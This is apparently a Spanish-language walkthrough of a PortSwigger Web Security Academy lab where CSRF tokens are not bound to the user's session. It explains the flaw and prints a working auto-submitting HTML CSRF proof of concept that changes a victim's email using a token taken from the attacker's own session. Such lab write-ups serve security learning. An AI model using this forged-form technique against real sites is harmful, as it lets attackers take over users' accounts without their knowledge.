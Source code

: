 ![20250709225636.png](20250709225636.png)

Algunas aplicaciones no validan que el token pertenezca a la misma sesión que el usuario que realiza la solicitud. En su lugar, la aplicación mantiene un conjunto global de tokens emitidos por ella misma y acepta cualquier token que aparezca en este conjunto.

En esta situación, el atacante puede iniciar sesión en la aplicación usando su propia cuenta, obtener un token válido y luego proporcionar ese token al usuario víctima en su ataque CSRF.

## LAB

Interceptaremos la solicitud de actualización de correo del usuario **wiener** 

![20250710014304.png](20250710014304.png)

![20250710014323.png](20250710014323.png)

Al modificar y luego enviar el  token CSRF nos da un error, además debemos tener en mente que el token es de un solo uso. Otra cosa que probé fue iniciar sesión con la cuenta de **carlos** y cambiar los token CSRF en la solicitud de **wiener** y este funciono, por lo que si bien el token se validan, este no lo se asocia a la sesión del usuario

```html
<!DOCTYPE html>
	<body>
  <script>history.pushState('', '', '/')</script>
		<h1>Form CSRF PoC</h1>
		<form method="POST" action="https://0a31005504ffa87a80d4171d009e0056.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="test2@test.com">
			<input type="hidden" name="csrf" value="jJY7gxzNKeNiQe4nTrrbEt88fl6cV66c">
			<input type="submit" value="Submit Request">
		</form>
    <script>
      document.forms[0].submit();
    </script>
	</body>
</html>
```

Una vez construida nuestro POC CSRF, debemos de tener lo siguiente:
- La sesión abierta de carlos y wiener (en un navegador modo incognito)

Cambiar el token CSRF de wiener y copiar en el servidor malicioso

![20250710014921.png](20250710014921.png)

Guarde el exploit y haga clic en "Deliver to victim" para resolver el laboratorio.

